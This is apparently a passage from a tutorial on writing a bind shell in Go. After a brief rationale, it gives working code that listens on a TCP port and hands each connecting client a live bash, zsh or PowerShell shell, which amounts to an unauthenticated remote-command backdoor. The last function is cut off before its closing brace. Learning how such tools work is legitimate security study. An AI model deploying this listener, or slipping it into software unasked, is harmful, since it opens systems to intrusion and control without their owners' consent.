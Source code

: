 ### Implementing a Bind Shell in Go

Tools like netcat make the creation of a bind shell very easy but there are still many reasons why you would want to implement your own (integration with existing tools, automation, understanding, it's cool...). The function _bindShellHost_ shows a rudimentary implementation of a bind shell listener.

```Go
func bindShellHost(listenPort string) {

 // start a tcp listener on the specified port
 listener, err := net.Listen("tcp", "localhost:"+listenPort)
 if err != nil {
  log.Printf("An error occurred while initializing the listener on %v: %v\n", listenPort, err)
 } else {
  log.Println("Listening on tcp port " + listenPort + "...")
 }

 // infinite loop waiting for connections and handing them to the handler function
 for {
  connection, err := listener.Accept()
  if err != nil {
   log.Printf("An error occurred during an attempted connection: %v\n", err)
  }
  // concurrently handle all incoming connections
  go handleBindConnection(connection)
 }
}

// handle incoming connections
func handleBindConnection(conn net.Conn) {

 // log new connection
 log.Printf("Received connection from %v\n", conn.RemoteAddr().String())

 // determine local operating system
 os := runtime.GOOS

 // test connection by sending confirmation
 // note: data needs to be converted to []byte before being sent
 _, err := conn.Write([]byte(fmt.Sprintf("Successfully connected to client running %s\n", os)))
 if err != nil {
  log.Println("An error occured while trying to write to the connection:", err)
 }

 // make sure connection is closed when process finishes
 defer conn.Close()

 // start local shell depending on local operating system
 shell := exec.Command("/bin/bash")
 switch os {
 case "windows":
  shell = exec.Command("powershell.exe")
 case "linux":
  shell = exec.Command("/bin/bash")
 case "darwin":
  shell = exec.Command("/bin/zsh")
 }

 // connect shell to server
 shell.Stdin = conn
 shell.Stdout = conn
 shell.Stderr = conn
 shell.Run()
```